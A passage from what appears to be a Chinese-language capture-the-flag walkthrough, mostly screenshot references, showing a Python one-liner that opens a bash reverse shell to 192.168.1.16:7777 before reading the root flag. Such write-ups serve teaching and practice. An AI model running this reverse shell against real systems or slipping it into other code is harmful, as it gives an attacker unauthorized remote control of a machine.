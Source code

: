 ![](./pic-4/29.jpg)

如果认为上面的代码太长，也可以使用下面代码，可以直接获得交互式界面

```shell
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.16/7777 0>&1'")
```

![](./pic-4/29-1.jpg)

查看`root`的`flag`

![](./pic-4/30.jpg)
